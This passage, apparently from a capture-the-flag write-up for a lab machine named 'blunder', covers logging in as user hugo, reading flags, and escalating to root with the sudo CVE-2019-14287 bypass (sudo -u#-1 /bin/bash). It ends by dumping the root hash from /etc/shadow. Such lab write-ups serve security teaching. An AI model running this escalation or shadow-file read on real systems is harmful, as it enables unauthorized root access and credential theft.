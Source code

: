 The password is: `Password120`.

```
www-data@blunder:/var/www$ su hugo
Password:

hugo@blunder:~$ cat user.txt
9b8099236a4c7efcad6bf60293d921e5

hugo@blunder:~$ id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
```

## Privilege Escalation of Machine : from hugo to root

We can launch a bash shell as any user except root:

```
hugo@blunder:~$ sudo -l
Password:

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

But that's in theory, because we can use `sudo < 1.8.28 - Security Bypass`
(CVE-2019-14287), see [EDB-47502](https://www.exploit-db.com/exploits/47502).

```
hugo@blunder:~$ sudo --version
sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1

hugo@blunder:~$ sudo -u#-1 /bin/bash

root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)

root@blunder:/# cat /root/root.txt
df815831c59461a89906cac16c662282

root@blunder:/# cat /etc/shadow | grep root
root:$6$GmdDkez55tk.8Dvd$qDfa.WwHrKSBCswEaWLaSwFNCeNroew0pyxbsg8uO8a2/uq.XelP9Q/u5Cb9cBxO6hSyaVqt1lfU.3omw0ThC0:18228:0:99999:7:::
```

I wonder if there was a way to root via the shuan account.

[nmap]:https://inventory.raw.pm/tools.html#Nmap
[ffuf]:https://inventory.raw.pm/tools.html#ffuf
[cewl]:https://inventory.raw.pm/tools.html#CeWL
[pwncat]:https://inventory.raw.pm/tools.html#pwncat
[msf]:https://inventory.raw.pm/tools.html#Metasploit
[haiti]:https://inventory.raw.pm/tools.html#Haiti

